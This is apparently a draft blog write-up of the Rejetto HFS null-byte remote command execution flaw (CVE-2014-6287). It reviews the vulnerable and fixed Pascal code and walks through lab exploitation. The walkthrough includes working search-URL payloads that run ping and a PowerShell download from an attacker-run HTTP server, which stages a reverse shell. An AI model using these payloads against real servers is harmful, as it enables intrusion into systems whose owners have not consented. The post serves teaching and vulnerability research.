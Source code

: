 ```yaml
---
layout: post
title:  "Rejetto HFS Remote Command Execution CVE2014-6287"
categories: [Technical]
tags: [command execution, exploit, python]
draft: true
---
```


### Introduction

On September 12th 2014, a vulnerability found within HttpFileServer was reported that allowed attackers to remotely execute commands on the affected device, this was caused due to poor validation on user input, which would allow an attacker to execute arbitary commands. The bug was reported in the `findMacroMarker()` function in the `parserLib.pas` file.

### So, How does it work?

By performing whats known as [NullByte Injection](http://projects.webappsec.org/w/page/13246949/Null%20Byte%20Injection) we can bypass the sanity checking written in that function thus allowing us to script over HFS without any restrictions in place. This is because the RegEx does not correclty handle the nullbyte characters which is what allows us to escape the filter. If you want to know more about Null Byte Injection you can also read my [blog post](https://linxz.co.uk/attacks/2018/11/20/NullByte-Injection.html) on it.

If we send a nullbyte as a paramter when performing a search on the affected device then we can escape the filter of forbidden characters thus allowing us to execute arbitary commands on the device. As an example, take this request here `http://localhost:80/search=%00{.exec|+C:\Windows\system32\ping.exe+10.10.14.11}` as you can see we've got our nullbyte which allows us to bypass the sanity checking, then we're sending a command to tell the machine to run `ping.exe` and ping that IP address. You can learn more about [HFS Scripting Here.](http://www.rejetto.com/wiki/index.php/HFS:_scripting_commands). Now that we know we can execute commands remotely, we can now leverage this in order to setup a reverse shell to the affected device thus giving us access to it with the same privilege level as the account the software is running on.

### Code Review

There's not a massivee amount of code for us to review here however, because HFS is an open-source program we can look at both the affected & fixed code, which is nice! So, let's first look at the vulnerable function within `parserLib.pas`.

```Pascal
function findMacroMarker(s:string; ofs:integer=1):integer;
begin result:=reMatch(s, '\{[.:]|[.:]\}|\|', 'm!', ofs) end;
```

As you can see, the vulnerable code is incredibly small, the only issue is that it does not correctly handle the nullbyte we send and thus that gives us the ability to script over HFS with no limitations. If we look in the `scriptLib.pas` file we can see where this function is called.

```Pascal
function noMacrosAllowed(s:string):string;
// prevent hack attempts
var
  i: integer;
begin
i:=1;
  repeat
  i:=findMacroMarker(s, i);
  if i = 0 then break;
  replace(s, '&#'+intToStr(charToUnicode(s[i]))+';', i,i);
  until false;
result:=s;
end; // noMacrosAllowed
```

As you can see, the function in which this function is called is actually meant to stop people passing macros into a URL. However, there is no handling for a null byte which as we mentioned, that's where the problem lies. In order to fix this issue a function called `enforceNUL(s)` was added.

```Pascal
function noMacrosAllowed(s:string):string;
// prevent hack attempts
var
  i: integer;
begin
i:=1;
enforceNUL(s);
  repeat
  i:=findMacroMarker(s, i);
  if i = 0 then break;
  replace(s, '&#'+intToStr(charToUnicode(s[i]))+';', i,i);
  until false;
result:=s;
end; // noMacrosAllowed
```

As you can see, before it executes `findMacroMarker` it will first run this `enforceNUL` function, let's take a look at what this function does, which is defined in `utillib.pas`.

```Pascal
procedure enforceNUL(var s:string);
begin
if s>'' then
  setLength(s, strLen(@s[1]))
end; // enforceNUL
```

Now, my Pascal knowledge isn't the best however as far as I can tell this function basically removes the first character so that you cannot inject a `%00` into the URL, I could be wrong so if anyone knows some Pascal and would like to help me understand this better please feel free to contact me on Twitter @LinxzSec or @Linxz on Discord, thanks! You can obtain all of the source code for HFS from Source Forge.

### Exploit

Usually I test things against Metasploitable 2 however this vulnerability is not present in MS2 and thus in the below examples I am testing it against my own machine. I'm running HFS 2.3b on my Windows box whilst exploiting it using my Kali VM. I will show you how to execute this exploit both manaully and with Metasploit.

Firstly, let's test that we're running an affected version (although in this case we know we are) we will start out with sending a simple ping in a command back to our device whilst simultaneously running TCPDump on our attacking machine. Start by running HFS on your machine, make sure you can connect to it via the browser.

![Connection](LinxzFade.github.io/assets/images/2018-11-20/2018-11-20.PNG)

Now that we can see our device as being up we can move into the actual exploitation of the device, we will first look at exploiting this manually.

#### Manual Exploitation

Before we begin to exploit this we're going to make sure that our device is running the vulnerable version, even though we know it is and we can confirm with `nmap ip -sV` we're just going to do a quick test, we will first try to get the device to execute a ping back to our attacking machine.

First, setup a tcpdump using `tcpdump -i eth0 ICMP` leave that running and capturing packets in a terminal, then browse to your webserver with the following URL `http://192.168.139.1/?search=%00{.exec|C:\Windows\System32\ping.exe+192.168.139.138.}` obviously you will need to replace the IP addresses else this won't work, when you run this what you should see is your tcpdump picking up packets, you will also see a terminal open on the Windows device if you're using it (for example in my case I have three screens and I can see the terminal open when I press enter in my Kali VM). Now, what we did here was verify that the version is affected by sending a payload to the device, in this case we just told it to execute ping.exe and then ping the ip address `192.168.139.138` which is the address of my Kali VM. It's worth noting that it seems you *must* use a full stop at the end of your command else the server will not execute it, at least that's in my experience.

```bash
root@LinxzSecKali:~# tcpdump -i eth0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
12:11:59.722051 IP 192.168.139.1 > LinxzSecKali: ICMP echo request, id 1, seq 33, length 40
12:11:59.722080 IP LinxzSecKali > 192.168.139.1: ICMP echo reply, id 1, seq 33, length 40
12:11:59.727859 IP 192.168.139.1 > LinxzSecKali: ICMP echo request, id 1, seq 34, length 40
12:11:59.727886 IP LinxzSecKali > 192.168.139.1: ICMP echo reply, id 1, seq 34, length 40
12:11:59.731815 IP 192.168.139.1 > LinxzSecKali: ICMP echo request, id 1, seq 35, length 40
12:11:59.731918 IP LinxzSecKali > 192.168.139.1: ICMP echo reply, id 1, seq 35, length 40
```

Next we need to exploit this vulnerability in order to get a reverse shell, we know the RCE is there so let's figure out how we can leverage that to get full access to the account that's running the service. So, as we've entioned the next step was to get a reverse shell! I came across the [following repo](https://github.com/samratashok/nishang) made by Samratashok which contains a lot of different PowerShell tools for offensive pen-testing. We're going to use some of these tools as there is one in here that will allow us to create a reverse shell on the target device, this is helpful because it means we don't have to build a script ourselves. (Yes I realise this section is "manual exploitation" however I think using a script here is much more efficient.)

So, we have the script, now we need to figure out how we can serve it to the target device so that we can send a payload to execute it. Well, we can use a variety of methods, in this case I'm going to use [SimpleHTTPServer.py](https://github.com/LinxzFade/Python-Hacking-Tools/blob/master/SimpleHTTPServer/SimpleHTTPServer.py) to achieve this. Basically, the script above is going to setup a HTTP Server on the specified port, and give any machine access to the directory that it's running in on that port, see where I'm going with this? Firstly, let's test our victim machine can access our attacking machine while we run `SimpleHTTPServer.py` in order to do this I am going to send the following PowerShell command to the device via my browser.

```PowerShell
http://192.168.139.1/?search=%00{.exec|+C:\WINDOWS\Sysnative\WindowsPowerShell\v1.0\powershell.exe%20-NoProfile%20-ExecutionPolicy%20unrestricted%20-Command%20(new-object%20System.Net.WebClient).Downloadfile(%27http://192.168.139.138:8000/test%27,%20%27C:\windows\temp\test%27).}
```

At the same time `SimpleHTTPServer.py` is going to be running in my terminal, as you can see I'm connecting to 192.168.139.138 on port 8000 which is my Kali machine & the port I've configured the HTTP Server to be running on, in the PS command above I am trying to donwnload "test" however that file does not exist and thus I get the below response from `SimpleHTTPServer.py`

```Bash
root@LinxzSecKali:~/Documents/Scripts/Python# python3 SimpleHTTPServer.py 8000
[+] Simple HTTP Server!
[+] Running Server...
192.168.139.1 - - [27/Nov/2018 18:39:04] code 404, message File not found
192.168.139.1 - - [27/Nov/2018 18:39:04] "GET /test HTTP/1.1" 404 -
192.168.139.1 - - [27/Nov/2018 18:39:04] code 404, message File not found
192.168.139.1 - - [27/Nov/2018 18:39:04] "GET /test HTTP/1.1" 404 -
```

but, that doesn't matter! We expeceted that behavior and now we know that our python HTTP server is working, we can now use this to get the victim to download our PowerShell reverse shell script that we briefly mentioned earlier

#### Metasploit Exploitation

### Python Exploitation

### References

[SecLists Bug Tracker](https://seclists.org/bugtraq/2014/Sep/85)

[HFS Scripting](http://www.rejetto.com/wiki/index.php/HFS:_scripting_commands)

[NullByte Injection](http://projects.webappsec.org/w/page/13246949/Null%20Byte%20Injection)

[HFS Patchnotes](http://www.rejetto.com/hfs/?f=wn)

[HFS 2.3C](https://sourceforge.net/projects/hfs/files/HFS/2.3c/)

[Exploit DB](https://www.exploit-db.com/exploits/34668/)

[Rapid7 Module](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec)

[Metasploit Module](https://www.exploit-db.com/exploits/34926/)